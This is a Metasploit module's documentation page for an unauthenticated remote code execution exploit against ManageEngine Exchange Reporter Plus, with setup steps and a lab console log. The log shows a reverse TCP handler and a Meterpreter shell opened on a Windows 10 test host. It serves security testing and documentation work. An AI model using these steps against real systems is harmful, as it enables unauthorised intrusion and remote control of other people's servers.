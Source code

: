 ## Description
This module exploits a remote code execution vulnerability that exists in Exchange Reporter Plus <= 5310, caused by execution of bcp.exe file inside ADSHACluster servlet.
Additional information can be viewed on https://security.szurek.pl/en/manage-engine-exchange-reporter-plus-unauthenticated-rce/

## Verification Steps
[Exchange Reporter Plus 5216](https://mega.nz/#!XG5CTC5I!IuG91CbrcdcpQj4teYRiBWNwy9pULRkV69U3DQ6nCyU)

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/windows/http/manageengine_adshacluster_rce`
 4. Do: `set rhost <ip>`
 5. Do: `check`
```
[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
```
 6. Do: `set lport <port>`
 7. Do: `set lhost <ip>`
 8. Do: `exploit`
 9. You should get a shell.


## Scenarios

### Exchange Reporter Plus 5216 on Windows Target
```                                                                                                                                    
msf > use exploit/windows/http/manageengine_adshacluster_rce
msf exploit(windows/http/manageengine_adshacluster_rce) > set rhost 192.168.88.125
rhost => 192.168.88.125
msf exploit(windows/http/manageengine_adshacluster_rce) > check

[*] Version: 5216
[+] 192.168.88.125:8181 The target is vulnerable.
msf exploit(windows/http/manageengine_adshacluster_rce) > set lport 1111
lport => 1111
msf exploit(windows/http/manageengine_adshacluster_rce) > set lhost 192.168.88.120
lhost => 192.168.88.120
msf exploit(windows/http/manageengine_adshacluster_rce) > exploit

[*] Started reverse TCP handler on 192.168.88.120:1111
[*] Sending stage (179779 bytes) to 192.168.88.125
[*] Meterpreter session 2 opened (192.168.88.120:1111 -> 192.168.88.125:49955) at 2018-07-02 18:58:01 +0200

meterpreter > sysinfo
Computer        : WIN10
OS              : Windows 10 (Build 16299).
Architecture    : x64
System Language : pl_PL
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```